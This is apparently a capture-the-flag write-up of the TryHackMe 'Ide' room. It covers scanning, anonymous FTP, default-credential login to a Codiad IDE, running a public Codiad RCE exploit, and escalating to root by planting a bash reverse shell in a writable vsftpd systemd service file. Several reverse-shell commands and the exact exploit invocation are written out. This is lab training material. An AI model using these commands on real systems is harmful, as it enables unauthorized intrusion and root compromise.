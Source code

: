 ## Ide 

Room link: https://tryhackme.com/room/ide

## Scanning 
I ran an aggressive nmap scan to begin. It looked like there are 3 services running on the system, FTP, SSH, and HTTP. 
```
ajread@aj-ubuntu:~/TryHackMe$ nmap -A [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-14 20:17 EDT
Nmap scan report for [Remote IP]
Host is up (0.094s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.1.236
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds
```
A full nmap scan showed a random high port as well. 
```
ajread@aj-ubuntu:~/TryHackMe/thm_writeups_publish$ nmap -p- [Remote IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2022-03-30 18:46 EDT
Nmap scan report for [Remote IP]
Host is up (0.090s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 239.50 seconds
```

## Enumeration 
I first looked into the anonymous ftp login. There was a file called ```-``` nested within a the ```...``` directory. 
```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> cd ./-
550 Failed to change directory.
ftp> get -
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (1.1163 MB/s)
```
I pulled the ```-``` file from the FTP server and it appeared to be a note. The note itself said the following: 
```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```
So, I can infer that there are two users named ```john``` and ```drac```. User ```john``` must have a simple password. Before looking back at the random open high port, I ran hydra against the FTP and SSH service with username ```john``` and a simple password list. I was unsuccessful so I knew the credentials must be used somewhere else on the system. 

## Initial Access
I checked out the random high port and found that it was a Codiad IDE interface running on port 62337. I tried to login with a default password for user ```john``` and authenticated! I found a Codiad RCE on exploitdb: ```https://www.exploit-db.com/exploits/49705``` that requires authentication. The RCE appears to be able to write to Codiad within ```components/filemanager/controller.php``` and execute system commands like ```nc``` or ```/bin/bash``` that can be used to call back to a remote machine.

Before running the exploit, it required me to set up a VPS for the connection. So, in one terminal, I set up reverse shell in bash that would pipe to another listener on my machine from the remote connection. 
```
echo 'bash -c "bash -i >/dev/tcp/[Local IP]/10000 0>&1 2>&1"' | nc -lnvp 9999
```
In another terminal on my local machine, I set up the listener on port 10000 to receive the final reverse shell from the remote machine. 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
```
After everything was set up, I ran the exploit and pointed it as the Codiad IDE with the ```john:[REDACTED]``` credentials.
```
ajread@aj-ubuntu:~/TryHackMe/practice$ python3 49705.py http://[Remote IP]:62337/ john [REDACTED] [Local IP] 9999 linux
```
And, I received a shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 10000
Listening on 0.0.0.0 10000
Connection received on [Remote IP] 57402
bash: cannot set terminal process group (939): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
But, I was only the ```www-data``` user. I needed to move to the ```drac``` user in order to see the user flag. 
```
www-data@ide:/home/drac$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
After some looking around, I found credentials within user ```drac``` bash history. 
```
www-data@ide:/home/drac$ cat .bash_history
cat .bash_history
mysql -u drac -p [REDACTED]
```
I used ssh to log in with the credentials above and found the flag! 
```
drac@ide:~$ id
uid=1000(drac) gid=1000(drac) groups=1000(drac),24(cdrom),27(sudo),30(dip),46(plugdev)
drac@ide:~$ wc -c user.txt
33 user.txt
```
## Privilege Escalation 
Using  ```sudo -l``` it looked like I could restart vsftpd as root. 
```
drac@ide:~$ sudo -l
[sudo] password for drac: 
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```
I looked at the ```vsftpd.service``` file and noticed that I had write permissions. Since ```ExecStartPre``` contains additional commands that are run after ```ExecStart```, I added another ```ExecStartPre``` field to execute a reverse shell using bash after the original ```ExecStartPre```. (This page was a great resource: ```https://www.freedesktop.org/software/systemd/man/systemd.service.html``` if interested). 
```
drac@ide:/lib/systemd/system$ cat vsftpd.service 
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/usr/sbin/vsftpd /etc/vsftpd.conf
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty
ExecStartPre=-/bin/bash -c "bash -i >& /dev/tcp/[Local IP]/8888 0>&1"

[Install]
WantedBy=multi-user.target
```
I started a listener on my local machine to catch the elevated reverse shell on port 8888 above.
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
```
Then, I had to reload the daemon on the remote machine before restarting vsftpd. 
```
drac@ide:/lib/systemd/system$ systemctl daemon-reload
==== AUTHENTICATING FOR org.freedesktop.systemd1.reload-daemon ===
Authentication is required to reload the systemd state.
Authenticating as: drac
Password: 
==== AUTHENTICATION COMPLETE ===
```
Finally, I was able to restart the service as root on the remote machine. 
```
drac@ide:/lib/systemd/system$ sudo service vsftpd restart 
```
And it called back to my local machine with an elevated shell! 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on [Remote IP] 35294
bash: cannot set terminal process group (1683): Inappropriate ioctl for device
bash: no job control in this shell
root@ide:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ide:/# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
